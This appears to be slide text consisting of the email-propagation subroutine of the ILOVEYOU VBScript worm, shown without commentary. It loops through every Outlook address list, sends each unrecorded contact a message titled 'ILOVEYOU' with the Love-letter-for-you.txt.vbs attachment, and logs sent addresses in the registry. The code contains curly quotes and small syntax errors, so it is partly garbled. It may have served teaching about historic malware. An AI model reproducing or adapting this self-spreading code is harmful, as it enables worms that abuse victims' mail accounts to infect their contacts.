

Sub spreadtoemail()
On Error Resume Next
Dim x,a,ctrlists,ctrentries,malead,b,regedit,regv,regad
Set regedit = CreateObject(“Wscript.Shell”)
Set out = Wscript.createObject(“Outlook.application”)
Set mapi = out.getNameSpace(“MAPI”)
For ctrlists=1 to mapi.AddressLists.Count
	set a = mapi.AddressLists(ctrlists)
	x=1
	regv=regedit.RegRead(“HKEY_CURRENT_USER\Software\Microsoft\WAB\”&a)
	if(regv=“”) then
		regv=1
	endif
	if (int(a.AddressEntries.count)>int (regv)) then
		for ctrentries = 1 to a.AddressEntries.Count
		malread = a.AddressEntries(x)
		regad=“”
		regad=regedit.RegRead(“HKEY_CURRENT_USER\Software\Microsoft\WAB\”&malread”)
		if(regad=“”) then
			set male=out.CreateItem(0)
			male.Recipients.Add(malread)
			male.Subject=“ILOVEYOU”
			male.Body=vbcrlf&”kindly check the attached loverletter coming from me.”
			male.Attachments.Add(dirsystem&”\Love-letter-for-you.txt.vbs”)
			male.Send
			regedit.RegWrite “HKEY_CURRENT_USER\Software\Microsoft\WAB\”&malread,1,”REG_DWORD””
		end if
		x=x+1
		next
		regedit.RegWrite “HKEY_CURRENT_USER\Software\Microsoft\WAB\”&a,a.AddressEntries.Count
	else
		 regedit.RegWrite “HKEY_CURRENT_USER\Software\Microsoft\WAB\”&a,a.AddressEntries.Count
	end if
	next
	Set out= Nothing
	Set mapi=Nothing
End sub